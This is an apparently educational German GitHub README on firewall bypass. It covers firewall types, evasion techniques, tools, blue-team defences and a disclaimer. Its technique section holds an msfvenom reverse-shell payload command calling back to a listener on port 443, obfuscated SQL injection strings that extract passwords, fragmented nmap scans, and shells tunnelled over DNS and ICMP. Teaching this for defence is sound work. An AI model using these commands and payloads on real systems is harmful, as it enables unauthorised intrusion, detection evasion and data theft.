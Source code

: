 # 🔥 Firewall Bypass – Techniken, Tools & Schutzmaßnahmen



## Inhaltsverzeichnis
- [Einleitung](#einleitung)
- [Arten von Firewalls](#arten-von-firewalls)
- [Ziel von Firewall Bypass Techniken](#ziel-von-firewall-bypass-techniken)
- [Häufige Techniken zur Umgehung](#häufige-techniken-zur-umgehung)
- [Tools zur Analyse und Bypass](#tools-zur-analyse-und-bypass)
- [Verteidigungsmaßnahmen (Blue Team)](#verteidigungsmaßnahmen-blue-team)
- [Lernressourcen)](#lernressourcen)
- [Haftungsausschluss](#haftungsausschluss)




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Einleitung

Firewalls sind Sicherheitsmechanismen, die den Netzwerkverkehr auf Basis definierter Regeln filtern. Sie dienen dazu:
- **Unerlaubte Zugriffe zu verhindern**
- **Angriffsversuche zu erkennen**
- **Verbindungen zu blockieren oder zuzulassen**

Ein **Firewall Bypass** bezeichnet die **Umgehung dieser Filtermechanismen**, z. B. durch Tarnung oder Manipulation des Traffics. Dieses Wissen ist für **Pentester** und **Security Analysts** essenziell, um Schwächen in der Konfiguration zu erkennen.



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Arten von Firewalls

| Firewall-Typ            | Beschreibung                                         |
|--------------------------|------------------------------------------------------|
| Paketfilter (Stateless)  | Analysiert nur Header (z. B. IP, Port, Protokoll)   |
| Stateful Firewall        | Erkennt Verbindungskontexte (SYN → ACK etc.)        |
| Application Firewall     | Analysiert Inhalte auf Anwendungsebene (HTTP, FTP)  |
| Web Application Firewall (WAF) | Schutz vor typischen Web-Angriffen (SQLi, XSS)     |
| Host-Based Firewall      | Lokal auf Systemen (z. B. Windows Defender Firewall) |
| Next-Gen Firewalls       | Kombinieren mehrere Funktionen inkl. IDS/IPS        |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Ziel von Firewall Bypass Techniken

- Zugriff auf gesperrte Ports oder Dienste
- Umgehen von Inhaltsscans (z. B. bei WAFs)
- Vermeiden der Detektion durch Security-Systeme
- Platzieren von Payloads oder Backdoors




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Häufige Techniken zur Umgehung

### 1. **Tarnung über erlaubte Ports**
> Firewalls blockieren oft alles außer HTTP (80), HTTPS (443), DNS (53), usw.

Beispiel:
```bash
ncat --proxy-type http --proxy 192.168.1.1:8080 target.com 443
```

Oder:

- Reverse Shell über Port 443 senden
- Malware über Port 53 (DNS-Tunnel) exfiltrieren



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### 2. Payload Obfuscation

    Inhalte verschleiern, um Signaturen zu umgehen (z. B. bei WAFs)

Beispiele:
```bash
# SQLi-Befehl verschleiert:
?id=1/**/UNION/**/SELECT/**/password/**/FROM/**/users

# Unicode-Encoding
?id=1%u002f%u002aUNION%u002f%u002aSELECT...

# Hex oder Base64 verschlüsselt
```


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### 3. Fragmentierung von Paketen

Durch Aufteilen des Paketinhalts auf mehrere TCP-Segmente kann die Firewall umgangen werden, wenn sie keine vollständige Rekonstruktion vornimmt.

```bash
nmap -f target.com      # Fragmentierter Scan
```


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### 4. Protocol Tunneling (DNS, ICMP, HTTP)

    Verbotene Protokolle über erlaubte Protokolle transportieren

Tools:

- dnscat2 – Shell über DNS
- iodine – Internet over DNS
- httptunnel – TCP-Tunnel via HTTP
- icmpsh – Shell über ICMP



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### 5. Über Ports, die der Firewall "vertrauenswürdig" erscheinen

Reverse Shell über HTTPS:
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.10 LPORT=443 -f elf > shell.elf
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Tools zur Analyse und Bypass

| Tool       | Zweck                                      |
| ---------- | ------------------------------------------ |
| Nmap       | Portscans, Fragmentierung, Timing          |
| Netcat     | Manuelle Verbindungen über beliebige Ports |
| Socat      | Flexible Verbindungstunnel                 |
| Metasploit | Automatisierte Payloads & Bypasses         |
| Iodine     | DNS-Tunnel                                 |
| ICMPshell  | Shell über Ping                            |




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Verteidigungsmaßnahmen (Blue Team)

- Port-Whitelisting: Nur notwendige Ports erlauben
- Deep Packet Inspection (DPI): Inhalte auch fragmentiert scannen
- Timeout-Management: Verhindert Time-based Evasion
- IDS/IPS-Systeme: Tools wie Snort oder Suricata zur Signaturerkennung
- WAF-Härtung: Regeln regelmäßig aktualisieren, Obfuskation erkennen
- Application Layer Filtering: DNS, HTTP, ICMP gezielt prüfen




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Lernressourcen

- TryHackMe: Rooms zu „Firewall Evasion“ und „Nmap Advanced“
- HackTheBox: Viele Labs mit WAF/Firewall-Herausforderungen
- YouTube: John Hammond, The Cyber Mentor – „Firewall Evasion Techniques“
- Bücher: „The Hacker Playbook 3“, „Nmap Network Scanning“




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!